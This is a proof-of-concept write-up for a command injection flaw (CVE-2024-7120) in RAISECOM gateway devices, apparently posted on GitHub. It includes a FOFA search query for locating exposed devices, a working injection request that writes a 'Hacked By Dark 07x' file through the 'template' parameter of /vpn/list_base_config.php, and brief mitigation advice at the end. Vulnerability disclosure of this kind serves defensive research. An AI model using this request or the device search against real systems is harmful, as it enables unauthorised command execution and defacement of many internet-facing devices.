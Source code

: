 # Raisecom Devices Command Injection (CVE-2024-7120) Proof of concept!

# Overview

A command injection vulnerability has been identified in the RAISECOM Gateway devices, affecting models MSG1200, MSG2100E, MSG2200, and MSG2300. This vulnerability allows remote attackers to execute arbitrary commands on the system via the web interface. The issue resides in the `list_base_config.php` script, specifically via the `template` parameter, affecting over 25,112 devices on the Internet.

✔ FOFA : title="web user login" && body="<META content\=\"MSHTML 6.00.2900.5583\" name\=GENERATOR></HEAD>"

# Affected Components

**URI: `/vpn/list_base_config.php`**

**Description:** the `list_base_config.php` is a web-based interface component of RAISECOM Gateway devices used for managing VPN configurations. The identified vulnerability arises due to improper handling of the `template` parameter in this script. This parameter can be exploited to execute arbitrary commands on the device's operating system due to insufficient input sanitization. 

# CWE

CWE-77: Command Injection

# Exploitation

Here is an example of how the vulnerability can be exploited using a curl command:

```bash
GET "http://host.com/vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo%20-e%20%27{{Hacked By Dark 07x}}%27%3E%20%2Fwww%2Ftmp%2Finfo.html%60"
```

In this example, the `curl` command sends a malicious HTTP GET request to the `list_base_config.php` script. The request utilizes the `template` parameter to execute a command.


1. **Input Validation:** Implement strict validation checks on all user inputs, especially those that can affect system commands or file paths.
2. **Access Controls:** Restrict access to the device's web interface to trusted networks and authenticated users.
